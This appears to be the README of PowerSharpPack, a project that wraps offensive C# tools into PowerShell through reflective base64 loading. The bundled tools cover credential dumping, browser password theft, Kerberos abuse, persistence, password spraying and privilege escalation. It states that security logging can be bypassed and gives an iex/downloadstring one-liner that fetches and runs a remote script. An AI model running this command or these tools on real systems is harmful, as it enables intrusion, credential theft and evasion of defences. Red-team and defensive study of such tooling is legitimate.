 # PowerSharpPack

Many usefull offensive CSharp Projects wraped into Powershell for easy usage.

Why? In my personal opinion offensive Powershell is not dead because of AMSI, Script-block-logging, Constrained Language Mode or other protection features. Any of these mechanisms can be bypassed. Since most new innovative offensive security projects are written in C# I decided to make them usable in powershell as well.

So what did i basically do here? First of all clone each C# Tool and set the class and main methods public. For some projects i merged pull requests with new features or bug fixes or i had to remove environment.exit statements so that the whole powershell process is not killed for missing parameters and so on. Afterwards compiling each binary, encoding it base64 and load it in powershell via [System.Reflection.Assembly]::Load([Convert]::FromBase64String()).

Which tools are included?

 **Internalmonologue**

 Internal Monologue Attack: Retrieving NTLM Hashes without Touching LSASS
 @Credit to: https://github.com/eladshamir/Internal-Monologue

 **Seatbelt**

 Seatbelt is a C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives.
 @Credit to: https://github.com/GhostPack/Seatbelt

 **SharpWeb**

 .NET 2.0 CLR project to retrieve saved browser credentials from Google Chrome, Mozilla Firefox and Microsoft Internet Explorer/Edge.
 @Credit to: https://github.com/djhohnstein/SharpWeb

 **UrbanBishop**

 Creates a local RW section in UrbanBishop and then maps that section as RX into a remote process. Shellcode loading made easy.
 @Credit to: https://github.com/FuzzySecurity/Sharp-Suite

 **SharpUp**

 SharpUp is a C# port of various PowerUp functionality.
 @Credit to: https://github.com/GhostPack/SharpUp

 **Rubeus**

 Rubeus is a C# toolset for raw Kerberos interaction and abuses.
 @Credit to: https://github.com/GhostPack/Rubeus && https://github.com/gentilkiwi/kekeo/

 **SharPersist**

 Windows persistence toolkit written in C#.
 @Credit to: https://github.com/fireeye/SharPersist

 **Sharpview**

 C# implementation of harmj0y's PowerView
 @Credit to: https://github.com/tevora-threat/SharpView

 **winPEAS**

 Check the Local Windows Privilege Escalation checklist from book.hacktricks.xyz
 @Credit to: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS

 **Lockless**

 Lockless allows for the copying of locked files.
 @Credit to: https://github.com/GhostPack/Lockless

 **SharpChromium**

 .NET 4.0 CLR Project to retrieve Chromium data, such as cookies, history and saved logins.
 @Credit to: https://github.com/djhohnstein/SharpChromium

 **SharpDPAPI**

 SharpDPAPI is a C# port of some Mimikatz DPAPI functionality.
 @Credit to: https://github.com/GhostPack/SharpDPAPI && https://github.com/gentilkiwi/mimikatz/

 **SharpShares**

 Enumerate all network shares in the current domain. Also, can resolve names to IP addresses.
 @Credit to: https://github.com/djhohnstein/SharpShares

 **SharpSniper**

 Find specific users in active directory via their username and logon IP address
 @Credit to: https://github.com/HunnicCyber/SharpSniper

 **SharpSpray**

 SharpSpray a simple code set to perform a password spraying attack against all users of a domain using LDAP and is compatible with Cobalt Strike.
 @Credit to: https://github.com/jnqpblc/SharpSpray

 **Watson**

 Enumerate missing KBs and suggest exploits for useful Privilege Escalation vulnerabilities
 @Credit to: https://github.com/rasta-mouse/Watson

 **Grouper2**

 Find vulnerabilities in AD Group Policy
 @Credit to: https://github.com/l0ss/Grouper2

 **Tokenvator**

 A tool to elevate privilege with Windows Tokens
 @Credit to: https://github.com/0xbadjuju/Tokenvator

 **SauronEye**

 Search tool to find specific files containing specific words, i.e. files containing passwords.
 @Credit to: https://github.com/vivami/SauronEye

Just load the main script with

`iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1')`


and choose the tool as switch parameter for example:

`PowerSharpPack -Seatbelt -Command all`

![alt text](https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/images/Example.JPG)


If you dont want to load all binaries for reasons you can use the per binary Powershell scripts located in the PowerSharpBinaries folder.

